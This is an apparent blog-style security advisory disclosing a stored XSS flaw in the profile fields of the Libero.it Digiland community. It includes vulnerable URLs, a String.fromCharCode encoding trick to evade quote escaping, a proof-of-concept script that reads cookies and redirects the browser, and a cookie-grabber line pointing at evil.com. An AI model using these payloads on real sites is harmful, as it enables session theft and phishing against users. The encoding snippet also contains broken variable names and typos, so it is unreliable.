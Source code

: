 ```yaml
--- 
layout: post
title: "Advisory: Libero.it XSS Vulnerability"
published: true
meta: 
  _oembed_e8ca828b69f69de0e22e7e271ad7dc26: "{{unknown}}"
  _wp_page_template: default
  _oembed_3d718b72c63aacfdf79d1fb38e6253f1: "{{unknown}}"
  _oembed_631062b4a4548c51f235907d114d6fd4: "{{unknown}}"
  _oembed_116a79a942c74cddb055bd8503a08054: "{{unknown}}"
  autometa: nick nick digiland script fromcharcode arbitrary vulnerability profile
  _oembed_40a3ac3cf2f3c38b4c5f3ef6a652909c: "{{unknown}}"
tags: 
- Me &amp; The Web
type: post
status: publish
---
```

After the report of Rosario Valotta on this ML, another XSS vulnerability
has been found on Libero.it, one of the most important italian ISP
(www.libero.it).

Nothing more than a trivial error but, since Libero.it staff used the
printed media to inform that it was only a "spot" issue, it is
important to demonstrate that this kind of errors are quite more
widespread and to let the Libero staff and management realize that a
potential attack
must be avoid by a deep check of the portal.

The vulnerability once again can be found in the "Community" section
of Libero portal, and the affected functionality is the profile
creation and retrival
<http://digiland.libero.it/profilo.phtml?nick=XssForFun&top=1>.

The implementation of this functionality allows the injection of
malicious code in the profile, so that an attacker by visiting his/her
profile can:

1) steal username
2) steal cookies
3) arbitrary redirection for Phishing pourpose

The normal URL would be something linke this:

<pre>
http://digiland.libero.it/profilo.phtml?nick=Nick&top=1
</pre>

where "Nick" is the name of the nick whose profile has been
manipulated to add arbitrary code.

This vulnerability resemble to those in MySpace and other communities.
So it's nothing really complicated and you can skip on from here ;)

In admin pages (need to be logged by creating a fake account) on page

<pre>
http://digiland.libero.it/profilo_add.php?nocache=1175076655
</pre>

there are two different fields named "I miei difetti:" (my defects)
and "i miei pregi:" (my strong points) that accept arbitrary content.

As stated by Rosario, the Libero.it web application performs a simple
parsing of the posted content, so that quote and double-quote (' and ")
chars are escaped by putting a \ before of them (both using ASCII and URL
encoding).

While I already had the Rosario's beautiful implementation of a simple
evasion technique I preferred to encode the single char in an old
snippet of mine.
The aim of the snippet (I don't remember if I made it, stole it, stole
only the main idea or where, sorry)  is to transform a string into a
series of char numbers to be used with a String.fromCharCode command.
Due to the limitation in size, the function which create the
String.fromCharCode sequence is a detached and ascii value is
decreased of 100 to limit the number of digits.
This is the creation snippet:

<pre>
 &lt;script>
 var toBenc = "hettp://www.lastknight.com";
 var result = "";

  for (var k = 0; k < carlo.length; k++)
 {
         result += ("e(" + (toBenc .charCodeAt(k) - 100) + ")+");
 }

 document.write(result + "<br>")
 &lt;/script>
</pre>  

 So URL "http://www.lastknight.com" is rendered as:
 <pre>
e(4)+e(16)+e(16)+e(12)+e(-42)+e(-53)+e(-53)+e(19)+e(19)+
e(19)+e(-54)+e(8)+e(-3)+e(15)+e(16)+e(7)+e(10)+e(5)+e(3)+
e(4)+e(16)+e(-54)+e(-1)+e(11)+e(9);
</code>

Using the tho box we can use the following code for a POC:

<pre>
[BOX 1]
 &lt;script>
 function e(A) {
  return String.fromCharCode(A + 100)
 }
 alert(document.cookie);
  &lt;/script>

 [BOX 2]
 &lt;script>
 var k =
 e(4)+e(16)+e(16)+e(12)+e(-42)+e(-53)+e(-53)+e(19)+e(19)+e(19)+e(-54)+e(8);
 k +=
 e(-3)+e(15)+e(16)+e(7)+e(10)+e(5)+e(3)+e(4)+e(16)+e(-54)+e(-1)+e(11)+e(9);
 alert(k);
 window.location = k;
  &lt;/script>
</pre>
  

The posting url can be easily modified to an http grabber such as:  

<pre>
http://evil.com/grab?c="+encodeURI(document.cookie);
</pre>

or (much more dangerous) to a phishing site.  
  
Session Riding and derived problems have not been tested.  
  
A POC url is available (until not deleted) here:

[http://digiland.libero.it/profilo.phtml?nick=XssForFun&top=1]  
  
Just my 2 cents and thanks to:    
  
**M1Sec**: for hints and Support  
**Rosario Valotta**:  for the first report, upon which this is based  
**SharDick**:  for help in JS ;)  
**Vokda**:  for consultancy and typo-killing ;)  
 
